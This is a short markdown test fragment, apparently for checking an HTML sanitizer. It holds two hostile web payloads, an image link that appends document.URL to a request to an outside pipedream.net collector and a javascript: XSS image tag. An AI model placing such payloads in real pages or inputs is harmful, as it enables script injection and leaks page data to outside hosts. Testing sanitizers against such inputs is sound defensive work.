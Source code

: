 # testfeld
![alt text]("'https://enhidosc39xiu.x.pipedream.net?id='+document.URL" "Logo Title Text 1")
<IMG SRC="javascript:alert('XSS');">

